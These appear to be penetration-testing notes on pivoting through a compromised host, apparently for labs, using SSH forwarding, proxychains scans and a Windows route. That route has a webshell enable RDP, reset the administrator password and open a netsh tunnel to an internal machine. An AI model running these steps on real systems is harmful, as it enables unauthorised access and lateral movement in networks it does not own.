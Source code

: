 # Forwarding

Port forwarding can be useful if you get on to a victim and they are running a service locally that you want to interact with back on the attack machine. Or if the victim is connected to a network the attacker cannot access directly, proxychains in this case would allow the attacker to use the victim to attack the rest of the network


## ssh

![Pasted image 20220807173120](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0868e1b6-51dd-443b-8adc-e7b5a0b44764)

<img width="587" alt="Screen Shot 2022-10-02 at 7 14 03 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/790e1b77-fde9-4761-ae00-e3cda178ff00">

## Example with ssh and proxy chains
This example assumes attacker reached a victim that has access to networks the attacker had not previously had access to.

## proxychains
make sure config is set up

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/12574f68-19d3-4858-824f-b589face8588)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/1fe6b9e9-7206-4351-898c-1927972db6a1)


```
proxychains nmap -sV -sC -Pn -v -A --reason 172.16.8.3 2>&1 | grep -v -E 'socket error|timeout|Strict'
```

### Using Firefox
Settings-> proxy
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/8e5ae2e6-6dcc-4110-ae32-be7936c977f4)

## chisel


## without ssh on windows

without ssh 
First, from the webshell, set the registry key so we can log in

```Powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

dont know any creds on the box so let’s just change the local admin’s pass, from the webshell

```Powershell
net user administrator newpass
```

now, from the linux attack host, log into a very limited cmd shell on WEB-WIN01 to setup a tunnel, where WEB-WIN01 is also the 10.X.X.X ip address of the webshell

```bash
xfreerdp /v:<WEB-WIN01> /u:administrator /p:newpass /cert:ignore
```

in the new RDP cmd window, after using `nslookup` to discover MS01 is `172.16.6.50` , make a tunnel with the `netsh` command which links WEB01’s 10.X.X.X reachable address on port 1515 to MS01’s RDP port 3389, like this:

```cmd
netsh interface portproxy add v4tov4 listenport=1515 listenaddress=<WEB-WIN01> connectport=3389 connectaddress=172.16.6.50
```

RDP into MS01 from our attack host through the tunnel we just made to MS01 on WEB-WIN01 port 1515:

```bash
xfreerdp /v:<WEB-WIN01>:1515 /u:svc_XXX /p:XXckX7 /cert:ignore
```
